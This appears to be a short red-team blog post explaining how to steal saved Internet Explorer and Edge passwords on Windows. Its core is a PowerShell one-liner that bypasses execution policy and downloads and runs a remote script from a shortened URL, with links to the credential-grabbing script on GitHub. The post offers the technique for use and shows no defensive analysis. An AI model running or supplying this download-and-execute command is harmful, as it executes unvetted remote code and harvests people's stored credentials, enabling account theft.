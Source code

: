 ```yaml
---
title: Extract stored passwords from browser using Powershell
date: 2020-09-15 09:00:00 +07:00
tags: [browser, savedpasswords, data, collection, redteam]
description: Stealing saved passwords using Powershell
---
```


In this article, I would like to share powershell code which is useful to extract saved password from Internet Explorer/Microsoft Edge browsers in Windows endpoint.

#### Powershell command:

```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2K75g15')"
```

##### Execution:

<figure>
<img src="/extract-saved-browser-passwords-using-powershell/credgrap.gif" alt="Powershell code">
<figcaption>Powershell command</figcaption>
</figure>

#### References

- [Github](https://github.com/HanseSecure/credgrap_ie_edge)
- [Powershell code](https://raw.githubusercontent.com/HanseSecure/credgrap_ie_edge/master/credgrap_ie_edge.ps1)

